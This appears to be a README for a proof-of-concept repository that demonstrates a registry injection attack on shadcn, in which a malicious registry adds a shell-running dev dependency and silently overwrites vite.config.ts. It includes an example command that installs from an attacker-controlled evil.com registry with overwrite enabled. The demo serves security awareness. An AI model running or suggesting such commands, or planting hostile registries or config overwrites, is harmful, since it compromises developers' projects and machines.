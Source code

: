# shadcn-registry-injection-demo

> **Proof of Concept:** Registry Injection Attack targeting the `shadcn` component ecosystem  
> **Educational Purpose Only**

---


[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/dteGNxAe5Vc/0.jpg)](https://www.youtube.com/watch?v=dteGNxAe5Vc)


## ⚠️ Disclaimer

This repository is created solely for educational and awareness purposes to demonstrate how a registry injection attack could compromise projects by injecting malicious code through dependencies and configuration files.  
**Do NOT use this code for any unauthorized, harmful, or illegal activities.**

---

## What is a Registry Injection Attack?

A Registry Injection Attack involves publishing or injecting malicious packages into public or private package registries to trick developers into installing compromised dependencies or components. Attackers exploit trust in package names, registries, or installation commands to gain unauthorized access, steal data, or execute malicious code silently.

---

## About This Demo and the shadcn Vulnerability

Shadcn registries let you install UI components quickly, but they can also include **dev dependencies**, **overwrite configuration files**, and **silently inject malicious code** into your project.

### How the Attack Works

- A `registry.json` file defines components, dependencies, and even files to overwrite.
- The attacker includes a malicious dev dependency, such as `vite-plugin-run`, which can execute arbitrary shell commands when your development server starts.
- The attacker overwrites critical config files like `vite.config.ts` to inject code that runs commands automatically — without any warning or prompt.
- For example, an attacker can run:

  ```bash
  npx shadcn@latest add https://evil.com/registry.json --overwrite
  ```
